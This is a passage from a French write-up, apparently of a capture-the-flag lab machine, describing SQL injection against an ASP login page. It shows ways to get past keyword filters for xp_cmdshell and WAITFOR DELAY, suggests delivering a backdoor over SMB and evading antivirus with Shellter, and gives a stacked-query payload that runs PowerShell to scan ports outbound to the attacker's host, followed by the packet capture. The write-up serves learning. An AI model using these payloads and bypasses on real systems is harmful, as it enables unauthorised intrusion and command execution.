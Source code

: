 ```plain
            Response.Cookies("Email")=Base64Encode(rs("_e"))

            Response.Cookies("UserName").Expires = Now() + 365
            Response.Cookies("Password").Expires = Now() + 365
            Response.Redirect "welcome.asp"
        end if

    end if
    rs.close
    set rs = nothing
    Conn.Close
    set Conn = nothing
    Response.Redirect "Welcome.asp"
    Response.End
else
    'Invalid User

    Response.Redirect "login.asp"
end if
NULL
%>
```

On comprend alors les difficultés que l'on avait à faire exécuter *xp\_cmdshell* : la chaîne est retiré de la requête forgée avant son exécution. Celà est toutefois facilement bypassable en mettant au moins une des lettres en majuscule.  

De la même façon on peut bypasser le retrait de *WAITFOR DELAY* en rajoutant un espace supplémentaire entre ces deux mots et pour *CASE* ou peut par exemple envoyer *CACASESE* (ou *CCASEASE*... whatever)  

Ecrire un script Tamper pour sqlmap pourrait s'avérer utile mais j'ai préféré continuer avec mon script perso :)  

Maintenant il faudrait pouvoir faire exécuter une backdoor sur le système. Le plus simple est d'utiliser *impacket-smbserver* pour créer un partage SMB et de simplement passer le chemin [UNC](https://fr.wikipedia.org/wiki/Universal_Naming_Convention) de notre exécutable à *xp\_cmdshell*. En cas d'antivirus on peut même avoir recours à [Shellter](https://www.shellterproject.com/) pour passer inaperçu.  

Mais une fois de plus c'est voué à l'échec... Les règles du pare-feu empêchent visiblement le trafic SMB.  

La stacked-query suivante effectue un scan de port sortant vers ma machine :  

```python
1;EXEC master..xP_Cmdshell 'c:/windows/syswow64/windowspowershell/v1.0/powershell.exe -nop -exec bypass -c "1..65535 | % { echo ((New-Object Net.Sockets.TcpClient).Connect(\"10.10.15.208\", $_)) \"$_ is open\" } 2> $null"';
```

Et là l'orage fait place au soleil :  

```plain
Capturing on 'tun0'
    1 0.000000000  10.10.10.72 → 10.10.15.208 TCP 52 49694 → 443 [SYN, ECN, CWR] Seq=0 Win=8192 Len=0 MSS=1357 WS=256 SACK_PERM=1
    2 0.000016130 10.10.15.208 → 10.10.10.72  TCP 40 443 → 49694 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
    3 0.539965114  10.10.10.72 → 10.10.15.208 TCP 52 [TCP Retransmission] 49694 → 443 [SYN] Seq=0 Win=8192 Len=0 MSS=1357 WS=256 SACK_PERM=1
    4 0.539981248 10.10.15.208 → 10.10.10.72  TCP 40 443 → 49694 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
    5 1.068069720  10.10.10.72 → 10.10.15.208 TCP 48 [TCP Retransmission] 49694 → 443 [SYN] Seq=0 Win=8192 Len=0 MSS=1357 SACK_PERM=1
    6 1.068086110 10.10.15.208 → 10.10.10.72  TCP 40 443 → 49694 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
```
